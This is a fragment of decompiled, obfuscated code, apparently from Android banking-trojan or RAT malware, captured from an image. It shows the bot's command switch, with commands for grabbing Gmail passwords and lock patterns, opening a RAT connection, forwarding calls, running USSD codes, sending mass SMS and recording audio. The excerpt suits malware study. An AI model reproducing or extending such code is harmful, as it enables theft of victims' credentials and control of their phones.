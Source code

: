 ```cs
                        goto label_1706;
                    }
                    case "sms_mailing_phonebook": {
                        goto label_1647;
                    }
                    case "call_forward": {
                        goto label_1329;
                    }
                    case "request_permission": {
                        goto label_1713;
                    }
                    case "send_mailing_sms": {
                        jwozx0.a.a(context1, jSONObject5.getString(jwozx0.a("ZTY=")), jSONObject5.getString(jwozx0.a("ZmM=")));
                        return;
                    }
                    case "remove_bot": {
                        goto label_1655;
                    }
                    case "grabbing_pass_gmail": {
                        goto label_1720;
                    }
                    case "clean_cache": {
                        goto label_1857;
                    }
                    case "ussd": {
                        goto label_1282;
                    }
                    case "rat_connect": {
                        goto label_1667;
                    }
                    case "get_data_logs": {
                        goto label_1607;
                    }
                    case "grabbing_lockpattern": {
                        goto label_1737;
                    }
                    case "stop_socks5": {
                        goto label_1801;
                    }
                    case "change_url_connect": {
                        goto label_1673;
                    }
                    case "patch_update": {
                        goto label_1866;
                    }
                    case "url": {
                        goto label_1614;
                    }
                    case "update_inject": {
                        goto label_1808;
                    }
                    case "run_app": {
                        goto label_1621;
                    }
                    case "run_record_audio": {
                        goto label_1815;
                    }
                    case "access_notifications": {
                        goto label_1752;
                    }
                    case "change_url_recover": {
                        goto label_1689;
```